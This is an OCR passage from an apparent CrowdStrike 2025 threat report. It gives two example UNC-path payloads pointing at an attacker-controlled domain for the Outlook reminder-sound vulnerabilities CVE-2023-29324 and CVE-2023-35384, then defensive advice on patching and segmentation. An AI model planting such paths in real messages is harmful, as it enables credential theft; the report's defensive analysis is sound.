 CVE-2023-29324

\\.\UNC\\<attacker-controlled domain>\<file>.wav

CVE-2023-35384

\\./UNC/C://../<attacker-controlled domain>/<file>.wav

Figure 18. 
PidLidReminderFileParameter
 examples showing CVE-2023-23397, 
CVE-2023-29324, and CVE-2023-35384 exploitation


---

# Page 38

38
CROWDSTRIKE 
2025 GLOBAL THREAT REPORT

Whether threat actors have used either bypass in 2024 is unknown. However, these vulnerabilities underscore

that circumventing mitigations from earlier patches to target the same vulnerable components is often trivial.

These trends highlight threat actors’ evolving tactics and the challenges involved in effectively addressing

vulnerabilities. Much of the exploitation activity discussed in this report occurred after the vulnerabilities

were publicly disclosed and patches became available.

REDUCING THE RISK OF VULNERABILITY EXPLOITATION

Diligently applying vendor patches and other applicable mitigations/workarounds against known

vulnerabilities will reduce the risk of exploitation. 
CrowdStrike Falcon® Exposure Management
 can

help customers gain complete attack surface visibility and prioritize vulnerability management to

reduce intrusion risk and patching fatigue.

To prevent zero-day vulnerability exploitation, security teams can implement a defense-in-depth

approach to detect and remediate malicious activity before an attacker can reach their objectives.

For example, applying network-level access controls to limit server exposure to trusted remote

hosts can help reduce potential threats, and periodically ensuring applicable logs are correctly

collected and stored for later analysis can help facilitate incident response.

Other best practices — such as server/application isolation and sandboxing, network

segmentation, and adherence to least-privilege principles — can help prevent or limit the impact
